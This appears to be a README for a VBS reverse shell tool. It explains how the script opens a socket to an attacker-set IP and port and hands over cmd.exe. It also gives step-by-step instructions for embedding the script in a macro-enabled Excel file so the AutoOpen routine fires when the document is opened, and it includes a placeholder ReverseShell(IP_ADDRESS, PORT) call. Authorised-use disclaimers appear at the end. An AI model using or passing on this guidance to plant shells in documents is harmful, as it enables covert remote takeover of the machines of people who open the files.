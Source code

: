 # Reverse Shell VBS Script

This VBS script establishes a reverse shell connection to a specified IP address and port. It utilizes the Windows Sockets API (ws2_32) to create a socket and connect to the specified IP and port. Once the connection is established, it opens a command prompt (cmd.exe) to allow for remote command execution.

## Prerequisites

Ensure that the Windows Script Host is enabled on the target system.

## Usage

1. Copy the script content.
2. Edit the `AutoOpen` subroutine to specify the desired IP address and port in the `Call ReverseShell("IP_ADDRESS", PORT)` line.
3. Execute the script by running it using the Windows Script Host or embedding it in a document.

**Note:** Use this script responsibly and only in environments where you have explicit permission to conduct security testing or demonstrations.

## Excel Sheet Integration

An Excel sheet (`ReverseShellScript.xlsm`) is included with the script embedded inside it. To modify the script, follow these steps:

1. Open the Excel sheet.
2. Enable Developer mode in Excel.
3. Navigate to the VBS IDE embedded in Excel.
4. Locate and edit the `AutoOpen` subroutine at the end of the script to specify the desired IP address and port in the `Call ReverseShell("IP_ADDRESS", PORT)` line.


## Important Warning

This script is intended for educational and security testing purposes only. Unauthorized use is strictly prohibited. Be aware of the legal implications and adhere to ethical guidelines when utilizing this script.

